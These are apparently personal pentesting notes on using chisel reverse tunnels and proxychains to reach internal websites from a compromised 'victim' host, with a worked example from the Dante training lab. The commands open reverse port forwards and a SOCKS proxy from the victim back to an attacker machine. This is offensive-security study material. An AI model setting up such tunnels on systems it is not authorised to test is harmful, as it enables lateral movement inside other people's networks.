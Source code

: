 
# View Internal Website
Must use chisel

proxychains:
```c
socks5 127.0.0.1 1080
```

```c
chisel server -p 9000 --reverse (kali chisel server)
```

```c
chisel client KALI_IP:9000 R:8000:127.0.0.1:8000 (client forwarding port 8000 to  kali, if different interal ip change the last 8000)
```

##### Chisel can be transferred over http, extremely useful for Linux and 

Windows devices:
-Basic Connection  
-On server (local or jumpbox)  
```c
chisel or ./chisel server -p <random> --reverse
```  
  
-On Victim  
```c
./chisel client <IP wanting to connect (AP or jumpbox)>:<server specified port> R:1080:socks (This 1080:socks command connects to the socks5 port in etc/proxychains.conf file)  
```
OR  
On Victim  
```c
-./chisel server -p <server_port> --reverse  
```
  
On AP  
```c
-./chisel client <server_host>:<server_port> R:<remote_host>:<remote_port>:<local_port> 
```
This syntax should allow me to view any internal websites through localhost:<remote_port specified>

Example Scenario in Pro Labs Dante:
My AP IP was 10.10.14.4, my first jumpbox (Web Server) was 10.10.110.100, and I wanted to access an internal connected machine at 172.16.1.12.
- On my AP
	- chisel server -p 1236 --reverse
- On my jumpbox
	- ./chisel client 10.10.14.4:1236 R:172.16.1.12:1234
- Back on my AP
	- In URL, you can visit that IP at http://localhost:1234
